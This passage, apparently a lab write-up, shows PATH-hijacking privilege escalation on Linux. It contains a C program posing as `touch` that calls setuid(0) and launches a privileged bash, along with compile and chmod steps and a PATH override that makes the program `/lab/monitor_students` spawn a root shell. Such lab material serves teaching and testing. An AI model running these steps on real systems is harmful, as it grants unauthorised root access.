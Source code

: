 ```bash
$ which touch
/usr/bin/touch
```

- creating a malicious `touch` binary in `/home/lab_teacher` (where `lab_teacher` has write permissions)

__C program that executes `/bin/bash` in privileged mode__

file: `touch.c`
```c
int main(){
        setuid(0);
        system("/bin/bash -p"); // -p = run in privileged mode
}
```

- compile the  above `c` program and save output as `touch` 

```bash
$ gcc touch.c -o touch
touch.c: In function ‘main’:
touch.c:2:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    2 |  setuid(0);
      |  ^~~~~~
touch.c:3:2: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    3 |  system("/bin/bash -p");
      |  ^~~~~~              
```

- ignore the warnings and mark the binary  as executable


```bash
chmod +x touch
```

__Setting up the path__

- check the `$PATH` environment variable

```bash
$PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local
/games:/snap/bin
```
- We can see that binaries are first looked in `/usr/local/sbin` then `/usr/local/bin` and so on..

- Modify the path for `monitor_students` binary to current location (our current location at this point is `/home/lab_teacher` wher our malicious `touch` binary also exists).

```bash
PATH=.:$PATH /lab/monitor_students
```
- when the path is set, `monitor_students` automatically executed and resulted in root shell

![lab_teacher_root](images/lab_teacher_root.PNG)
